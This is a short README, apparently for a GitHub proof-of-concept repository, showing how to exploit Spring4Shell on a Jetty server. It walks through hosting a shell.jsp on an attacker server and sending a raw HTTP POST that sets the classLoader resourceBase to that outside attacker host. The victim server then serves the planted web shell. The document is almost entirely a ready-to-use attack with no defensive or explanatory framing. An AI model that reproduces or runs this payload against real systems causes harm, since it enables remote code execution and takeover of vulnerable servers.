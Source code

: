 # Poc-Spring4Shell-Jetty
Poc of Spring4Shell in Jetty serrver

1. Step 1
- Create a simple http server containing shell.jsp file in the hacker server
3. Step 2
- Send this payload to the victim server:
```
POST /exploit HTTP/1.1
Host: victim-host:8888
User-Agent: PetrusViet
Accept-Encoding: gzip, deflate 
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

class.module.classLoader.context.resourceBase=http://attacker-host:8000/&
```
4. Step 3
- Go to http://victim-host:8888/shell.jsp


